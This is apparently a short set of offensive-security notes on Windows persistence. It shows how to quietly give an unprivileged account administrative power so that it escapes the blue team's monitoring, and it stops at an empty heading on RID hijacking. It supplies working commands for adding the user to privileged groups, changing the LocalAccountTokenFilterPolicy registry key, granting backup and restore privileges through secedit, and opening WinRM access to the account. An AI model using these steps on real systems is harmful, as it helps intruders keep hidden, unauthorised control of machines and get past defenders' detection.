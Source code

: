 # make Unprivileged users to have cirtical access
Having an administrator's credential would be the easiest way to achieve persistence in a machine. However, to make it harder for the blue team to detect us, we can manipulate unprivileged users, which usually won't be monitored as much as administrators, and grant them administrative privileges somehow.


## Assign Group Memberships
- **Administrator Group**:
```ps1
# make it part of the Administrators group But this looks too suspicious
net localgroup administrators <Unpriv-username> /add
```
- **BackupOperators Group**:
```ps1
#  make it part of the BackupOperators group. Users in this group will be allowed to read/write any file or registry key, ignoring DACL
net localgroup "Backup Operators" <Unpriv-username> /add
# it still cannot RDP or WinRM back to the machine, we add it to the Remote Desktop Users (RDP) or Remote Management Users (WinRM) groups
net localgroup "Remote Management Users" <Unpriv-username> /add
# we are a part of Backup Operators, but the group is disabled, we'll have to disable LocalAccountTokenFilterPolicy: 
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

## Special Privileges and Security Descriptors
- **Directly Assing Privileges to user in Config file**(SeBackupPrivilege, SeRestorePrivilege)
```ps1
# create backup file from privilege configuration file
secedit /export /cfg config.inf
# add the user to the lines in the configuration regarding the SeBackupPrivilege and SeRestorePrivilege in TextEditor.
# convert the .inf file into a .sdb file and then put it back, using: 
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cfg config.inf
# user can't log into the system via WinRM, in the configuration window for WinRM's security descriptor you can add user and assign it full privileges for WinRM::
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
# change the LocalAccountTokenFilterPolicy registry key
```
## RID Hijacking
